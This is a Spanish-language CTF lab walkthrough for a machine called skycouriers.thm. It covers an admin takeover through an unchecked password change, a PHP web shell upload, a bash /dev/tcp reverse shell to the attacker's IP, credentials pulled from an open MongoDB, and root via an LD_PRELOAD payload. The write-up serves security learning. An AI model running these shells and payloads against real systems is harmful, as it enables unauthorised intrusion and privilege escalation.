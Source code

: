 ### Tags: `mongo` `LD_PRELOAD` 

# Escaneo (*22,80*)

```css
 sudo nmap -p- 172.17.0.2 -sSVC --min-rate 5000 -n -Pn --open -oN escaneo.txt
```
![image](https://github.com/user-attachments/assets/6c99e2d1-7caf-4280-83fb-8b982c975dec)

# Web port80
En la web tenemos un *dominio* `skycouriers.thm` que vamos a agregar al `/etc/hosts`

![image](https://github.com/user-attachments/assets/08970ac0-b2dd-446f-8098-3244663376ea)

 Investigando el web encontramos un *panel de login*

 ![image](https://github.com/user-attachments/assets/a90be2c6-b5dc-4195-8d02-3d5bcf75c500)

Como no encontramos nada lo que vamos a hacer es registrarnos como `test@test.com:test123` 

![image](https://github.com/user-attachments/assets/3a139dd0-a9e1-4ba3-8758-aa4eb7c8da11)

Tuvimos éxito y estamos dentro

![image](https://github.com/user-attachments/assets/6b5a885f-791f-4f23-bc09-ac4ee125cd06)

## Explotación
Vemos esto que solo `admin@sky.thm` tiene acceso

![image](https://github.com/user-attachments/assets/5a88c32d-c67f-4ea1-a217-54c161ef67de)

Tambien encontramos esto otro para cambiar la contraseña sin tener que poner la de antes, curioso

![image](https://github.com/user-attachments/assets/c89d7588-67c9-4029-a45a-012d0eb7117d)

### BurpSuite
Con BurpSuite interceptamos la **petición** para ver que onda

![image](https://github.com/user-attachments/assets/f6953ed4-370d-4b15-85a9-6d2b7fd8dea9)

Lo que vamos a hacer es modificar la contraseña de ``admin@sky.thm`` y le damos a `forward` y listo

![image](https://github.com/user-attachments/assets/e5eb4091-7a00-4a7e-ad96-2a80d4c3ce6c)

 Estamos dentro como `admin`

 ![image](https://github.com/user-attachments/assets/f9d225ae-1222-404c-b217-c73e173b231f)

# Dentro (**admin**)
Ahora para darnos una acceder a la máquina lo tenemos que hacer por acá ya que ahora si podemos (porque somos admin)

![image](https://github.com/user-attachments/assets/1d9b4de1-38d2-48c3-95c8-5ec885bd64e0)

Vemos que los archivos se suben a `/v2/profileimages/..`

![image](https://github.com/user-attachments/assets/65d367eb-8a21-4e91-8cda-b359f4eaa1d6)

Por ende subimos este archivo ``shell.php``  que creamos en nuestra máquina

```css
<?php
        system($_GET['cmd']);
?>
```
![image](https://github.com/user-attachments/assets/0b73dfa3-ca37-4bcc-be1f-37488f5f5354)

Vemos que funcionó

![image](https://github.com/user-attachments/assets/0ffe33d3-3103-4e1e-b657-88faf017b6b3)

Ahora nos mandamos un ReverseShell  `bash -c "bash -i >%26 /dev/tcp/10.2.1.196/443 0>%261"`. (antes `nc -nlvp 443`)

![image](https://github.com/user-attachments/assets/a98d0ae0-fec3-49f8-8fd1-6f047c3c3836)
![image](https://github.com/user-attachments/assets/ec92631b-2777-4fab-a74d-65c32f233194)

# Escalada (**webdeveloper**)
Con este comando `ss -ntulp`   enumero puertos internos  y vemos que en este puerto corre **MONGO**

![image](https://github.com/user-attachments/assets/890ff98b-facd-4029-a123-281914575d25)

Tratamos de conectarnos *sin proporcionar contraseña* y tuvimos éxito, ejecutando `mongo`en la terminal

![image](https://github.com/user-attachments/assets/85330a15-53a8-4aff-acfc-1690496283b4)

Listamos las bases de datos disponibles con `show dbs`, `use backup` para acceder, `show collections;` para listar las tabas y por ultimo `db.user.find();` para leer el contenido de la tabla.

![image](https://github.com/user-attachments/assets/7017e1d9-cdf6-44c7-82cc-65385b5c8326)

Vemos que el usuario existe 

![image](https://github.com/user-attachments/assets/d6130683-9a62-49bc-95b8-6c95f3f4812d)

Por ende *introducimos* su contraseña y estamos dentro

![image](https://github.com/user-attachments/assets/ac81a2d1-4ac2-422e-a0ca-200719de1ffb)

## Ecalada ROOT

 Haciendo `sudo -l` vemos esto:

 ![image](https://github.com/user-attachments/assets/60142a56-e40c-46aa-90af-60b439ed6fc4)

``LD_PRELOAD`` es una función que permite a cualquier programa utilizar bibliotecas compartidas.
Buscando en Google como escalar privilegios, encontramos este en en [HackTricks](https://book.hacktricks.xyz/linux-hardening/privilege-escalation#ld_preload-and-ld_library_path), seguimos los pasos que dice ahí.
Codigo:

```cs
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
    unsetenv("LD_PRELOAD");
    setgid(0);
    setuid(0);
    system("/bin/bash");
}
```

Por mas que de ese error cuando compilamos funciona igual y somos ¡``root``!

![image](https://github.com/user-attachments/assets/1738ee65-707a-4fe7-bcfe-d3dc33b66db7)













